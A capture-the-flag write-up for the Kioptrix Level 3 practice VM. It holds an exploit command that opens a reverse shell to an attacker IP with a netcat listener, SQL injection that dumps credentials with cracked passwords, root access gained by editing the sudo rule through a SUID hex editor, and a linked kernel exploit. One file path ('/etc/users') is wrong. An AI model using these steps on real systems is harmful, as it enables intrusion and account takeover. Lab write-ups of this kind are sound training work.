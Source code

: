 <h1>Kioptrix: Level 3 Write-up</h1>

<h2>NMAP</h2>

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

On Port 80 Lotus Cms is running so i googled for Exploit :

Exploit : https://github.com/carnal0wnage/exploits-1/blob/master/lotus_eval.py


Command : 

```
python lotus_eval.py 192.168.43.49 / 192.168.43.252 443  
nc -lvp 443
```

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/Kioptrix%3A%20Level%203/Images/shell.png)


<h2>Privilege Escalation</h2>

<h3>Method 1</h3>

**kioptrix3.com/gallery/gallery.php?id=1** is vulnerable to SQL injection through the id parameter.

Founds Creds After using sqlmap 

```
Database: gallery  
Table: dev_accounts  
[2 entries]  
+----+------------+---------------------------------------------+  
| id | username   | password                                    |  
+----+------------+---------------------------------------------+  
| 1  | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 (Mast3r)   |  
| 2  | loneferret | 5badcaf789d3d1d09794d8f021f40f0e (starwars) |  
+----+------------+---------------------------------------------+ 
```

Login via ssh using **loneferret** creds and user

On general Enumeration i found "/usr/local/bin/ht" with suid permission 

Its actually a hex editor 

NOW LET's TAKING ADVANTAGE OF THIS

```
export TERM=xterm
sudo ht /etc/users 
```
change mode to text by pressing F6, you’ll notice the following line:

```
loneferret ALL=NOPASSWD: !/usr/bin/su, /usr/local/bin/ht  
```

simply replace the "!" by a space (0x20), so running /usr/bin/su gives
 root.

```
loneferret@Kioptrix3:~$ sudo /bin/su  
root@Kioptrix3:/home/loneferret# whoami  
root  
```

<h3>Method 2</h3>

Exploting Kernel :

Exploit : https://www.exploit-db.com/exploits/40839

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/Kioptrix%3A%20Level%203/Images/priv%20esc.png)

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/Kioptrix%3A%20Level%203/Images/rooted.png)
